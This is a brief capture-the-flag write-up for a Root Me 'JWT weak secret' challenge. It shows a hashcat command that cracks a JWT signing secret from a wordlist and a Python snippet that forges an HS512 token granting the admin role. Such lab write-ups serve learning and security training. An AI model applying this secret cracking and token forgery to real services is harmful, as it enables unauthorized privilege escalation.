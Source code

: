 # JWT weak secret

[RootMe challege: JWT - Weak secret](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret): This API with its /hello endpoint (accessible with GET) seems rather welcoming at first glance but is actually trying to play a trick on you. Recover its most valuable secrets!

----

Argh:

![RootMe JWT weak secret](../../_static/images/rootme-jwt3a.png)

```text
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat -a 0 -m 16500 jwt jwt.secrets.list
hashcat (v6.2.6) starting
```

![RootMe JWT weak secret](../../_static/images/rootme-jwt3b.png)

```text
# http://challenge01.root-me.org/web-serveur/ch59

import jwt

secret = "secret"
hacked_token = jwt.encode({"role": "admin"}, secret, algorithm="HS512")
print(f"Hacked token:{hacked_token}")
```

etcetera.

## Resources

* [JWT techniques (these writeups)](../jwt/README.md)
